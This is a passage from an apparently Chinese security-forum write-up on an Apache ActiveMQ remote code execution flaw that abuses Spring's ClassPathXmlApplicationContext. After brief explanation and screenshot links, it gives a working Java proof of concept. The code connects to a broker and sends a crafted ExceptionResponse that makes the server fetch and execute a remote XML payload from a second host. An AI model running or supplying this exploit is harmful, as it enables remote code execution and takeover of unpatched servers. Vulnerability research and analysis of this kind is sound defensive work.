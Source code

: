 问题2:寻找到一个构造函数为String类型的利用链;

这里其他师傅已经找到利用的点了，这里就简单弄一下。

<https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw>

ClassPathXmlApplicationContext类可以加载XML进行命令执行。

因为ActiveMQ自带spring相关依赖，所以可以直接利用这个方法。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-021895f28bc2ee159921724e0a836ae87a6f2a2c.png)

因为这个漏洞触发可以看到都是需要是Throwable。所以我们只需要制作一个相同路径的ClassPathXmlApplicationContext类，触发之后系统将会寻找对应的ClassPathXmlApplicationContext类。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b3313a6cbba21155434dd04fffa903402bfda09b.png)

制作一个ClassPathXmlApplicationContext类。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-abca6e89b45bfe7232bdd2450765aee38f495828.png)

按照ActiveMQ的发送消息demo写一个利用的POC。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-7d2764eded3e945248f3766608c3677bbbbd6614.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-02f491ec60ae834e451458532dc88096aa211dab.png)

```jsimport
import org.apache.activemq.ActiveMQConnectionFactory;  
import org.apache.activemq.command.ExceptionResponse;  
import org.apache.activemq.transport.AbstractInactivityMonitor;  
import org.springframework.context.support.ClassPathXmlApplicationContext;  

import javax.jms.\*;  
import java.io.\*;  
import java.lang.reflect.Method;  

public class MQ\_POC {  
    private static final String *ACTIVEMQ\_URL* \= "tcp://172.20.10.7:61616";  
    //定义发送消息的队列名称  
    private static final String *QUEUE\_NAME* \= "tempQueue";  
    public static void main(String\[\] args) throws Exception {  
        //创建连接工厂  
        ActiveMQConnectionFactory activeMQConnectionFactory = new ActiveMQConnectionFactory(*ACTIVEMQ\_URL*);  
        //创建连接  
        Connection connection = activeMQConnectionFactory.createConnection();  
        //打开连接  
        connection.start();  
        Throwable obj2 = new ClassPathXmlApplicationContext("http://172.20.10.4/poc.xml");  
        ExceptionResponse exceptionResponse = new ExceptionResponse(obj2);  

        ((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);  
        connection.close();  
    }  
}

```

